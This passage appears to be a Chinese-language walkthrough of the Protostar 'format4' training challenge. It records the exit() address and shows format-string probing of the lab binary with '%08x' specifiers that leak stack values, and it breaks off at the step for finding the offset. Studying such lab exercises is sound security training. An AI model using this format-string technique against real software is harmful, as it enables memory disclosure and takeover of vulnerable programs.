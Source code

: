 ![](img/a5199cffe85bd327d50d7223666bf06f.png)

从源代码的角度来看，程序本身非常简单。我们现在只需要记下`exit()`函数(`0x8049724`)的入口地址。

# 剥削

## 初步侦察

像往常一样，让我们提供一些随机的字符串:

```
**$ python -c 'print "AAAA"' | /opt/protostar/bin/format4**
AAAA
```

打印出我们输入的任何字符串。但是如果提供一些格式字符串参数(`%08x`，我们会得到一些有趣的输出:

```
**$ python -c 'print "AAAA" + "|%08x" * 2' | /opt/protostar/bin/format4**
AAAA|00000200|b7fd8420***### Format String Explanation
"%08x"*** *= "%x" is a Format String parameter of the hexdecimal 
         representation. 
         The number "08" is the minimum value for "width field."
         This will pad the output of the "%x" specified to 8
         characters, which is equal to 4 bytes long.*
```

## 寻找偏移
